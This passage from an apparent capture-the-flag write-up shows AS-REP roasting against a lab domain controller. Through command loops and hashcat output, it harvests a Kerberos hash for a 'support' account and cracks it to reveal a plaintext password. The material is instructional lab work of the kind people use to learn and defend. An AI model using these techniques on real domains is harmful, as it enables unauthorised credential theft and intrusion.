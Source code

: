 Now I’ll use `-1` in `ls` to print only the directories one per line:

```

root@kali# mv users users.old; ls -1 /mnt/ > users

```

## Access as support

### AS-REP Roast

Just like in [Forest](/2020/03/21/htb-forest.html#as-rep-roasting), I can check this list of users for any that have the `UF_DONT_REQUIRE_PREAUTH` flag set to true. For those users, requesting a Kerberos ticket will generate a hash that I can try to break with brute force without my having any value user credentials on the domain.

I’ll use `GetNPUsers.py` to test each user, and since I know that a successful response will include a hash with `krb5asrep` in it, I’ll grep for that to see any successful results. It runs for a few minutes, but finds a result:

```

root@kali# for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done
$krb5asrep$23$support@BLACKFIELD.LOCAL:83f252224f04becb3108d7234f0fcd94$0f355b4ad7b813039520ec6ed1f451575c79c313a3779707b24fd8824aa74d9d4fda352599ad767167ade44f4f6a67b6e0d54016e26502ab618b0d7791a40ffc60480703a1cd6bd5ae68078ab9589a91284966a54fc6134ae52f8efc41164386e4e251b41aa09f46616d53c103216d3c3e0560c5e822937ad3b4f61527c9d4fb63664abd2888d2c379340baf682a38491978c9e63d151fc54725e969df94a34f996849c439ff6953a5c9747774d6878ff5555b8c6af1415ec3c141206c460f2d4949456f429d766072d0d348b30d642e521b14cf9cef4bc8d01da69bd3995b4019ee5bbbb024346ea7786474980ec6b1bb9d13c0

```

### Crack Hash

After saving the hash to a file, I’ll send it to Hashcat for cracking. Using the basic `rockyou.txt` word list, it breaks fairly quickly:

```

root@kali# hashcat -m 18200 svc.asrep.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...
...[snip]...
$krb5asrep$23$support@BLACKFIELD.LOCAL:83f252224f04becb3108d7234f0fcd94$0f355b4ad7b813039520ec6ed1f451575c79c313a3779707b24fd8824aa74d9d4fda352599ad767167ade44f4f6a67b6e0d54016e26502ab618b0d7791a40ffc60480703a1cd6bd5ae68078ab9589a91284966a54fc6134ae52f8efc41164386e4e251b41aa09f46616d53c103216d3c3e0560c5e822937ad3b4f61527c9d4fb63664abd2888d2c379340baf682a38491978c9e63d151fc54725e969df94a34f996849c439ff6953a5c9747774d6878ff5555b8c6af1415ec3c141206c460f2d4949456f429d766072d0d348b30d642e521b14cf9cef4bc8d01da69bd3995b4019ee5bbbb024346ea7786474980ec6b1bb9d13c0:#00^BlackKnight
...[snip]...

```
